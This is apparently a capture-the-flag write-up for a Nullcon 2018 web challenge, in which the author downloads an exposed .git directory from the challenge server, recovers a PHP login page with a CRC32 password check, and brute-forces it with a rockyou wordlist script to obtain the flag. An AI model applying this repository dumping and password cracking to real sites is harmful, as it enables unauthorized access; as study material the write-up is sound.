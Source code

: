 **Challenge :**

Hidden in Plain Sight http://34.201.73.166/

**Solution :** <br>
checking HTML source code doesn't  review any clue, then i checked robots.txt nothing there also, but .git reveal the website repository \o/ let's get it 

```
anisboss@anisboss-PC:~/Nullcon2018/web200/$ wget --mirror -I .git http://34.201.73.166/.git 
anisboss@anisboss-PC:~/Nullcon2018/web200/$ git log
commit 4b95ce4491c7b505cf37ce8f38c95da668d9ad78
Author: Riyaz Walikar <riyazwalikar@gmail.com>
Date:   Mon Feb 5 23:46:27 2018 +0530

    Corrected typo

commit 49c042bea82f729d4aa2f8e664942d1372a58018
Author: Riyaz Walikar <riyazwalikar@gmail.com>
Date:   Mon Feb 5 23:45:27 2018 +0530

    Removing files.

commit 096a77768a37271151786b67af92c2ca82760dff
Author: Riyaz Walikar <riyazwalikar@gmail.com>
Date:   Mon Feb 5 23:44:50 2018 +0530

    Adding any other additional files

commit dee3c7fea3dec33caa3ef25110ccdd466b2aa225
Author: Riyaz Walikar <riyazwalikar@gmail.com>
Date:   Mon Feb 5 23:44:27 2018 +0530

    Added background image

commit 34cdc16028467cff91bb53487124e7638aab702b
Author: Riyaz Walikar <riyazwalikar@gmail.com>
Date:   Mon Feb 5 23:44:08 2018 +0530

    Added CSS file for static content.

commit 59173b32d8802b3109763b8804076b96410c7328
Author: Riyaz Walikar <riyazwalikar@gmail.com>
Date:   Mon Feb 5 23:43:47 2018 +0530

    Adding primary static HTML file
anisboss@anisboss-PC:~/Nullcon2018/web200/$ git reset --hard 4b95ce4491c7b505cf37ce8f38c95da668d9ad78
HEAD is now at 4b95ce4 Corrected typo
anisboss@anisboss-PC:~/Nullcon2018/web200/$ git show
```
>/3e90c63922fa145442bb58d18b62af6c21717fee/index.php

```php
<html>
    <head>
        <link rel="stylesheet" type="text/css" media="screen" href="style.css" />
    </head>
    <body>
    <form class="login" method="post">
    <h1 class="login-title">Login for flag</h1>
        <input name="user" id="user" type="text" class="login-input" placeholder="Username" autofocus>
        <input name="pass" id="pass" type="password" class="login-input" placeholder="Password">
        <input type="submit" value="Lets Go" class="login-button">


 <?php
error_reporting(0);
$FLAG = readfile('/var/flags/level1.txt');
if (!empty($_POST['user']) && !empty($_POST['pass'])) {
    if(checklogin($_POST['user'],$_POST['pass'])){
        echo "<font style=\"color:#FF0000\"><h3>The flag is: $FLAG</h3><br\></font\>";
    }else{
        echo "<br /><font style=\"color:#FF0000\">Invalid credentials! Please try again!<br\></font\>";
    }
}


function checklogin($u,$p)
{
    if (($u) === "passwordisinrockyou" && crc32($p) == "550274426"){ //
        return true;
        }
    }
?>
```

as show above , there is a hidden form , and we are given the username "passwordisinrockyou" and we should find the password that has crc32(password)==550274426 from the rockyou.txt wordlist

a simple php script that find the good password  for us ;) 
```php
<?php

$handle = fopen("rockyou.txt", "r");
if ($handle) {
    while (($line = fgets($handle)) !== false) {
        $line = str_replace("\n", "", $line);
if (crc32($line) =="550274426")
{

        echo "[+] found ".$line."\n";
        break;
}
else
{
	echo "[-] Failed ".$line."\n";
}

    }
    fclose($handle);
}
```

the password is trumpet

logging in with <br>
**Username** : passwordisinrockyou<br>
**Password** : trumpet <br>

reveals the flag 
>hackim18{SeCuRiTy-MisConfiGuraTionS-ArE-Bad}

